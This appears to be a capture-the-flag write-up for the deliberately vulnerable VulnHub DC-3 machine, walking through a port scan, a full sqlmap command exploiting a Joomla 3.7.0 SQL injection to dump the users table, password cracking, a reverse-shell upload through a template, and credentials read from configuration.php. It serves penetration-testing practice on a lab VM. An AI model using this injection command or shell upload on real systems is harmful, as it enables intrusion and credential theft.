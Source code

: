 ```yaml
---
title : DC 3
categories: [Proving Grounds Play, DC]
tags: [PrivEsc,dc]
---
```


## **Description ⤵️**

>
💡 [DC-3](https://vulnhub.com/entry/dc-32,312/) is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).

If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.

**TECHNICAL INFORMATION**

DC-3 is a VirtualBox VM built on Ubuntu 32 bit, so there should be no issues running it on most PCs.

Please note: There was an issue reported with DC-3 not working with VMware Workstation. To get around that, I recommend using VirtualBox, however, I have created a separate DC-3 VMware edition for those who can only use VMware.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox and away you go.

**IMPORTANT**

While there should be no problems using this VM, by downloading it, you accept full responsibility for any unintentional damage that this VM may cause.

In saying that, there shouldn't be any problems, but I feel the need to throw this out there just in case.

**CONTACT**

I'm also very interested in hearing how people go about solving these challenges, so if you're up for writing a , please do so and send me a link, or alternatively, follow me on Twitter, and DM me (you can unfollow after you've DM'd me if you'd prefer).

I can be contacted via Twitter - @DCAU7

This works better with VirtualBox rather than VMware ## Changelog v3.2 - 2020-04-25 v3.0 - 2019-03-26

{: .prompt-info }

Let’s find the IP Address first >>

![157-1.png](/Vulnhub-Files/img/DC-3/157-1.png)

```bash
IP →  10.0.2.8
```

## Port Scan Results ➡️

![157-2.png](/Vulnhub-Files/img/DC-3/157-2.png)

```bash
OPEN PORTS >
80   HTTP
```

---

## Web Enumeration ⤵️

![157-3.png](/Vulnhub-Files/img/DC-3/157-3.png)

I found one exploit on exploitdb site for joomla 3.7.0 →

```bash
commands →
sqlmap -u "http://10.0.2.8/**index**.php?**option**=com_fields&**view**=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' --dump -p list[fullordering]
```

![157-4.png](/Vulnhub-Files/img/DC-3/157-4.png)

```bash
[02:45:21] [INFO] fetching entries for table '#__users' in database 'joomladb'
[02:45:21] [INFO] retrieved: 'freddy@norealaddress.net'
[02:45:21] [INFO] retrieved: '629'
[02:45:21] [INFO] retrieved: 'admin'
[02:45:21] [INFO] retrieved: '{"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""}'
[02:45:21] [INFO] retrieved: '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu'
[02:45:21] [INFO] retrieved: 'admin'

Database: joomladb
```

so with the help of john the ripper I got the password →

![157-5.png](/Vulnhub-Files/img/DC-3/157-5.png)

```bash
admin : snoopy
```

![157-6.png](/Vulnhub-Files/img/DC-3/157-6.png)

so I got In →

Lets upload the reverse shell code now →

![157-7.png](/Vulnhub-Files/img/DC-3/157-7.png)

After this set the reverse shell at port 4444 and then click on **`Template Preview`** →

![157-8.png](/Vulnhub-Files/img/DC-3/157-8.png)

Now lets see What I have with this shell →

`configuration.php` →

![157-9.png](/Vulnhub-Files/img/DC-3/157-9.png)

```bash
secret : 7M6S1HqGMvt1JYkY
user : root
password : squires
```

![157-10.png](/Vulnhub-Files/img/DC-3/157-10.png)

![157-11.png](/Vulnhub-Files/img/DC-3/157-11.png)

it worked →

![157-12.png](/Vulnhub-Files/img/DC-3/157-12.png)

![157-13.png](/Vulnhub-Files/img/DC-3/157-13.png)

![157-14.png](/Vulnhub-Files/img/DC-3/157-14.png)

---